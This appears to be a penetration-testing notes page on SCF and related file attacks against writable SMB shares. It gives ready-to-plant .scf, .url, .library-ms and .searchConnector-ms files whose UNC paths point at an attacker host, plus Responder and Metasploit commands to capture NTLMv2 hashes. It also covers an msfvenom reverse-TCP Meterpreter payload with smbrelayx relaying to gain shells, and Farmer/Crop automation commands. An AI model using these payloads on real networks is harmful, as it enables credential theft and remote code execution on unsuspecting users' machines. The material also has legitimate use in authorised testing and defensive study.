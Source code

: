 # SCF File Attacks

SMB is a protocol which is widely used across organisations for file sharing purposes. It is not uncommon during internal penetration tests to discover a file share which contains sensitive information such as plain-text passwords and database connection strings. However even if a file share doesn’t contain any data that could be used to connect to other systems but it is configured with write permissions for unauthenticated users then it is possible to obtain passwords hashes of domain users or Meterpreter shells.

## <mark style="color:red;">Gathering Hashes</mark>

It is not new that SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

### <mark style="color:orange;">SCF Files</mark>

Drop the following `@something.scf` file inside a share and start listening with Responder : `responder -wrf --lm -v -I eth0`

```tsconfig
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Saving the file as SCF file will make the file to be executed when the user will browse the file. Adding the @ symbol in front of the filename will place the file.scf on the top of the share drive.

### <mark style="color:orange;">**URL Files**</mark>

This attack also works with `.url` files and `responder -I eth0 -v`.

```tsconfig
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

### <mark style="color:orange;">**Windows Library Files**</mark>

Windows Library Files (.library-ms)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

### <mark style="color:orange;">**Windows Search Connectors Files**</mark>

Windows Search Connectors (.searchConnector-ms)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="<http://schemas.microsoft.com/windows/2009/searchConnector>">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\\\workstation@8888\\folder.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
    </simpleLocation>
</searchConnectorDescription>
```

Responder needs to be executed with the following parameters to capture the hashes of the users that will browse the share.

```python
responder -wrf --lm -v -I vboxnet0
```

![](<../../../.gitbook/assets/image (257).png>)

When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. Windows will try to authenticate to that share with the username and the password of the user. During that authentication process a random 8 byte challenge key is sent from the server to the client and the hashed NTLM/LANMAN password is encrypted again with this challenge key. Responder will capture the NTLMv2 hash.

![](<../../../.gitbook/assets/image (251).png>)

Alternatively to Responder, Metasploit Framework has a module which can be used to capture challenge-response password hashes from SMB clients.

```
auxiliary/server/capture/smb
```

![](<../../../.gitbook/assets/image (249).png>)

As previously when the user will browse the same share his password hash will be captured by Metasploit.

![](<../../../.gitbook/assets/image (252).png>)

If the password policy inside the company is sufficient it will take possibly days or weeks for the attacker to crack the captured hash.

## <mark style="color:red;">Meterpreter Shells</mark>

The main advantage of the technique above it that it doesn’t require any user interaction and automatically enforces the user to connect to a share the doesn’t exist negotiating his NTLMv2 hash. Therefore it is also possible to combine this technique with SMB relay that will serve a payload in order to retrieve a Meterpreter shell from every user that will access the share.

MSFVenom can be used to generate the payload that it will executed on the target:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.171 LPORT=5555 -f exe > pentestlab.exe
```

Coresecurity has released a set of python scripts called [Impacket](https://github.com/CoreSecurity/impacket) that can perform various attacks against Windows protocols such as SMB. Using the **smbrelayx** python script it is possible to set up and SMB server that will serve a payload when the target host will try to connect. This will performed automatically since the SCF file will enforce every to user to connect to a non-existing share with their credentials.

```
./smbrelayx.py -h Target-IP -e ./pentestlab.exe
```

![](<../../../.gitbook/assets/image (255).png>)

Metasploit Framework needs to be used as well in order to receive back the connection upon execution of the pentestlab.exe on the target.

![](<../../../.gitbook/assets/image (247).png>)

When the user will browse the share the SMB server will receive the connection and it will use the username and the password hash to authenticate with his system and execute the payload to a writable share.

![](<../../../.gitbook/assets/image (253).png>)

A Meterpreter session will received. However in order to avoid losing the connection it is necessary to migrate to a more stable process.

## <mark style="color:red;">Automation</mark>

Theses attacks can be automated with [Farmer.exe](https://github.com/mdsecactivebreach/Farmer) and [Crop.exe](https://github.com/mdsecactivebreach/Farmer/tree/main/crop)

```csharp
# Farmer to receive auth
farmer.exe <port> [seconds] [output]
farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
farmer.exe 8888 60 # one minute

# Crop can be used to create various file types that will trigger SMB/WebDAV connections for poisoning file shares during hash collection attacks
crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
```
